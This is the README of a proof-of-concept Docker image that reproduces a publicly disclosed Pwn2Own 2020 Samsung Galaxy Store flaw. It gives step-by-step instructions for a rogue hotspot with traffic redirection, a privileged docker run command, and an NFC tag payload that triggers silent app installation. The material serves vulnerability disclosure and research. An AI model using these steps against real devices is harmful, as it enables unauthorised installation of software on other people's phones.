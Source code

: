 # pwn2own2020-mitmInstallApp-docker

Docker image that replicates the issue disclosed at https://labs.f-secure.com/blog/samsung-s20-rce-via-samsung-galaxy-store-app/.

This PoC will:

* Host a hotspot called "yaytestyay"
* Redirect all traffic to "img.samsungapps.com" to the hotspot's default gateway IP address
* Host a web server which will host "img.samsungapps.com" traffic
* Install The Weather Channel application

Requires that your device is running the Galaxy Store version 4.5.19.13 (lower versions might work too). If you're running a higher version of the Galaxy Store, you can try uninstalling the "updated version" by doing the following:

* Open Settings -> Apps
* Locate "Galaxy Store"
* At the top right, tap the 3 dots above the gear icon
    - If there's no 3 dots above the gear icon, then you're running a version which cannot be uninstalled
* Tap "Uninstall updates" and tap "OK"

To replicate this issue:

* Plug a WiFi adapter that is capable of hosting hotspots into your USB port (I used an Alfa Atheros AR9271)
* Either build this Docker image or pull the image at https://hub.docker.com/r/kengannonmwr/pwn2own2020-mitminstallapp-docker
* Run `docker run -it --privileged --add-host img.samsungapps.com:192.168.50.1 --add-host home.yay:192.168.50.1 -v /dev/bus/usb:/dev/bus/usb --net=host pwn2own2020-mitminstallapp-docker:latest`
** NOTE: the above command will put the Docker image in a privileged state, which is insecure, but I used the above command for convenience
** Run this Docker image in a throwaway VM
* In the Docker image, run the command `pwn` which will start the Apache server and host the hotspot "yaytestyay"
* Connect your phone to the hotspot "yaytestyay"

Then do one of the following:

* Browse to `http://home.yay` and click on the "malicious link"
* Create a NFC tag with the following properties and scan it:
    - Data type: `application/com.sec.android.app.samsungapps.detail`
    - Data payload: `http://apps.samsung.com/appquery/EditorialPage.as?url=http://img.samsungapps.com/yaypayloadyay.html`

If you want to change the app that gets installed, open the file `/html/yaypayloadyay.html` and modify the JavaScript so that `com.weather.samsung` is changed to a different package name that is available on the Galaxy Store.
